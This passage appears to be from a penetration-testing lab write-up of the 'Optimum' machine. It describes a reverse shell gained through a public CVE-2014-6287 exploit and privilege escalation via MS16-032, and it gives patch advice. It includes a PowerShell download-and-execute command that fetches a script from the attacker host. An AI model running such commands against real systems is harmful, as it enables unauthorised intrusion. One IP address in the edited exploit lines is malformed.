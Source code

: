 **Severity:** \textcolor{red}{Critical}.

**Proof of Concept Code Here:** On the attacker machine was started a temporal web server using python, on another terminal a ncat listener was set up on port 443, and the public exploit (link below) associated to CVE-2014-6287 was executed, this lead to getting a reverse shell on the attacker machine from the victim.

Public exploit used:

```texinfo
https://www.exploit-db.com/exploits/39161
```

In the mentioned public exploit, the next lines:

```python
ip_addr = "192.168.44.128" #local IP address
local_port = "443" # Local Port number
```

where exchanged to:

```python
ip_addr = "10.10.10.14.57" #local IP address
local_port = "443" # Local Port number
```

**user.txt Proof Screenshot** N/A

![Reverse shell and user.txt](../optimum/screenshots/user-txt.png)

**user.txt Contents**

```texinfo
d0c3****************************
```

#### Privilege Escalation

**Vulnerability Exploited:** Kernel

**Vulnerability Explanation:** The system was found to be vulnerable to MS16-032, a kernel vulnerability which allows an attacker to escalate privileges by abusing the lack of sanitization of standard handles in Windows' Secondary Logon Service. Using a public exploit, it was possible to gain Administrator privileges.

**Vulnerability Fix:** Apply the patch 3143141 provided by Microsoft, and define a policy to keep the system updated with the last security patches.

**Severity:** \textcolor{red}{Critical}.

**Exploit Code:** Inside the low privilege shell with Powershell, Sherlock was downloaded from the attacker machine and executed, founding in the process the vulnerability:

```texinfo
powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://10.10.14.4/Sherlock.ps1')
```

![Vulnerable to MS16-032](../optimum/screenshots/sherlock.png)
